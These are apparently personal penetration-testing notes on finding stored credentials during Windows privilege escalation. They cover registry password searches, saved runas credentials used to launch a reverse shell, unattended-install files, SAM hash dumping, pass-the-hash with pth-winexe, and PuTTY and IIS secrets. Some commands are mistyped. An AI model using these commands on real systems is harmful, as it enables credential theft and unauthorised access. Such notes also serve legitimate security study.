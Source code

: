 ```yaml
---
category: Uncategorized
tags: []
---
```

### Registry
Can can contain password for insecure services.
[reg](reg.md)
```powershell
# search for password in either keyname or keyvalue recursively
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### Saved Creds
- Windows can allow user to save their password with runas.exe command.
- Can be queried with:
```powershell
# list already saved key
cmkey /list

# use the cred to run reverse shell as that user.
run /savecred /user:<username> C\reverse.exe

```

### Unattended Windows Installation
When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network. These kinds of installations are referred to as unattended installations as they don't require user interaction. Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:

```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
```xml
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```
As part of these files, you might encounter credentials:
```powershell
dir /s *pass* == *.config
```
- Searching for files that contains the word `password` and also ends in either `.xml` `.ini` or `.txt`
```powershell
findstr /si password *.xml *.ini *.txt
```

### SAM
- Security Accounts Manager
- Used for storing password hashes
- Encrypted using key found inside the file `SYSTEM`
- If SAM and SYSTEM is readable, it is possible to read hashes
- Located at `C:\Windows\System32\config` directory
- Locked while windows is running.
- Backup can be found at 
```powershell
C:\Windows\Repair
C:\windows\System32\config\RegBack
```
- Creddump7 can be used to fetch hashes from both the field.
> Hash that start with `31d6` means that either the account has no password or the account is deactivated.
- If hashes are not crackable, path-the-hash method can be used to login to the system.
- pth-winexe version of the winexe can be used to perform pass-the-hash attacks
```powershell
# hash should be both NL and LM hash
# add --system to get a SYSTEM level shell 
.\pth-winexe -U 'admin%<hash>' //<ip> cmd.exe
```

### Powershell History
Can be found in the below location: 
cmd:
```cmd
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
powershell:
```powershell
$Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### IIS Configuration Files
- Default web server in on windows installation.
- Configuration is stored in `web.config`, preferebly in the variable `connectionstring`
- `web.config` is stored in:
```powershell
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

### PuTTY
- Putty can store proxy configuration in registry keys that includes cleartext authentication details.
- They are stored in :
```powershell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
